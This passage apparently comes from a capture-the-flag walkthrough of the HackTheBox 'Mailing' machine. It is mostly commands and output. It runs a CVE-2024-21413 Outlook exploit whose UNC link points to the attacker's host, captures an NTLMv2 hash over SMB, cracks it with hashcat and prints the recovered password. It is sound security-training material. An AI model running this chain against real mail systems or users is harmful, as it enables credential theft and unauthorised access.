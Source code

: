 ```shell
$ python CVE-2024-21413-Microsoft-Outlook-Remote-Code-Execution-Vulnerability/CVE-2024-21413.py --server mailing.htb --port 587 --username administrator@mailing.htb --password homenetworkingadministrator --sender it@mailing.htb --recipient maya@mailing.htb --subject hey --url \\10.10.14.10\asdf

CVE-2024-21413 | Microsoft Outlook Remote Code Execution Vulnerability PoC.
Alexander Hagenah / @xaitax / ah@primepage.de                                                                                        

✅ Email sent successfully.
```

Start an `smbserver` and wait.

```shell
$ impacket-smbserver -smb2support kali .                          
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Incoming connection (10.10.11.14,52689)
[*] AUTHENTICATE_MESSAGE (MAILING\maya,MAILING)
[*] User MAILING\maya authenticated successfully
[*] maya::MAILING:aaaaaaaaaaaaaaaa:b5e9b462d7629052775cf089f0fba24c:010100000000000000ff557c50c4db013b4a64b85414973800000000010010006300630059007800480046004b007000030010006300630059007800480046004b0070000200100074005100710042005a00530065004f000400100074005100710042005a00530065004f000700080000ff557c50c4db0106000400020000000800300030000000000000000000000000200000bc50cd0cf8b2ad384d021cf2793b2cd9efcd8d2aca8f52768b9e268f3f76b08f0a001000000000000000000000000000000000000900200063006900660073002f00310030002e00310030002e00310034002e00310030000000000000000000
[*] Connecting Share(1:IPC$)
```

```shell
$ hashcat -m 5600 hash /usr/share/wordlists/rockyou.txt --force  
hashcat (v6.2.6) starting


MAYA::MAILING:aaaaaaaaaaaaaaaa:b5e9b462d7629052775cf089f0fba24c:010100000000000000ff557c50c4db013b4a64b85414973800000000010010006300630059007800480046004b007000030010006300630059007800480046004b0070000200100074005100710042005a00530065004f000400100074005100710042005a00530065004f000700080000ff557c50c4db0106000400020000000800300030000000000000000000000000200000bc50cd0cf8b2ad384d021cf2793b2cd9efcd8d2aca8f52768b9e268f3f76b08f0a001000000000000000000000000000000000000900200063006900660073002f00310030002e00310030002e00310034002e00310030000000000000000000:m4y4ngs4ri
```

`maya:m4y4ngs4ri`

Checking with `nxc`, we can access via `winrm`.

![](assets/Pasted%20image%2020250513235030.png)
